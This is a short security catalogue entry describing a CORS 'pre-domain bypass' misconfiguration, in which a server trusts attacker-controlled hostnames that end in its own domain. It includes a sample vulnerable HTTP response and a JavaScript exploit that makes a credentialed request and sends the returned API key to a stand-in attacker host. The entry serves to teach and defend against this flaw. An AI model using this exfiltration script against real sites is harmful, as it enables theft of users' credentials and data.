 # Pre-domain bypass

## Description 
Host allows requests from hostnames that has this host as a prefix. 

**Severity**: High

## Exploit
`example.com` trusts `evilexample.com`, which is an attacker's domain.

### Example
In this scenario any prefix inserted in front of `example.com` will be accepted by the server.  

**Vulnerable Implementation**

```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-implementation-example-1)
